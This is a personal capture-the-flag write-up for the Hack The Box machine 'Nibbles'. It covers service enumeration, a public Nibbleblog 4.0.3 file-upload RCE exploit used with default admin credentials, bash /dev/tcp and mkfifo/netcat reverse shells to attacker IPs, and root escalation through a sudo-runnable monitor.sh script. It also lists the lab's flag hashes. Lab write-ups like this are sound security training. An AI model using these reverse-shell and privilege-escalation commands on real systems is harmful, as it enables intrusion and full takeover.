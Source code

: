 ```yaml
---
OS: 
date: 
Time Started: "22:23"
Time Ended: 
tags:
---
```





# Time: 11:55am - 2:10pm

# Given

Nibbles is a fairly simple machine, however with the inclusion of a login blacklist, it is a fair bit more challenging to find valid credentials. Luckily, a username can be enumerated and guessing the correct password does not take long for most.

## IP: 10.10.10.75

# Steps

## Initial Enumeration

- $ nmap -sCV -p- 10.10.10.75 -oN enum/nmap.out
    - 2 open ports tcp 22 (ssh), 80 (http)
    - Server: Apache/2.4.18 (Ubuntu)
    - OS: Linux
- SSH needs creds, so focus on enumerating HTTP server
    - whatweb wasn't much help
    - manual enumeration showed a comment with a link called "/nibbleblog"
- nibbleblog shows a blog site.
    - Source code doesn't have much info either
    - Some links like feed seem to be PHP files
    - directory enumeration with feroxbuster shows more php files
- Nibbleblog version can be found at ip/nibbleblog/README

## Initial Foothold

- Googling for the nibbleblog version gives the cve
- Downloaded python file for the RCE exploit
- Run exploit to get inital foothold
    - `python3 nibbleblog_4.0.3.py -t <http://10.10.10.75/nibbleblog/admin.php> -u admin -p nibbles -shell`
- Run code to initiate reverse shell to attack host
    - `/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.6/4444 0>&1’`

## Local Enumeration

- `sudo -l` works here. A better way would have been using: **`find / -perm -4000 -type f -exec ls -la {} \\; 2>/dev/null`** .
- User Nibbler can run a certain file as root `/user/home/nibbler/personal/stuff/monitor.sh`

## Privilege Escalation

### Quick and Dirty

- Since user can run [`monitor.sh`](http://monitor.sh) as root, we can create a file with the same name and put it in the same folder then run it as root.

```bash
#! /bin/bash

/bin/bash -p
```

- Give it permissions to execute: `chmod +x ./monitor.sh`
- Run the file as sudo `sudo /home/nibbler/personal/stuff/monitor.sh`
- This opens a root shell.

### Cleaner

- There’s a zip file with the [`monitor.sh`](http://monitor.sh) file inside. Add the code to connect to our attacking host in a bash terminal.
- You can have a netcat listener running to catch that ping.

```bash
# Target Machine
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.154 8083 > /tmp/f" >> monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh
```

```bash
# Attacking Machine
root@kali# nc -lnvp 8083
listening on [any] 8083 ...
connect to [10.10.15.154] from (UNKNOWN) [10.10.10.75] 52184
# id
uid=0(root) gid=0(root) groups=0(root)
```

- Resource : [https://0xdf.gitlab.io/2018/06/30/htb-nibbles.html#privesc](https://0xdf.gitlab.io/2018/06/30/htb-nibbles.html#privesc)

# Findings

- Most directories are open to view
- Config.xml - [](http://10.10.10.75/nibbleblog/content/private/config.xml)[http://10.10.10.75/nibbleblog/content/private/users.xml](http://10.10.10.75/nibbleblog/content/private/users.xml)
    - Possible username of site admin: admin
- Admin page: ip/nibbleblog/admin.php
- Nibbleblog version is 4.0.3
    - This version is vulnerable to arbitrary file upload CVE-2015-6967
- Inital foothold user is Nibbler

# Creds

- Default web admin creds are `admin:nibbles`

# Flags

- user.txt - 275fe786daa51e9d7231b202bee8d88d
- root.txt - 49e2d3850b93b08c190ddc59995273a9

# Proof

![image.png](../../Assets/nibbles1.png)
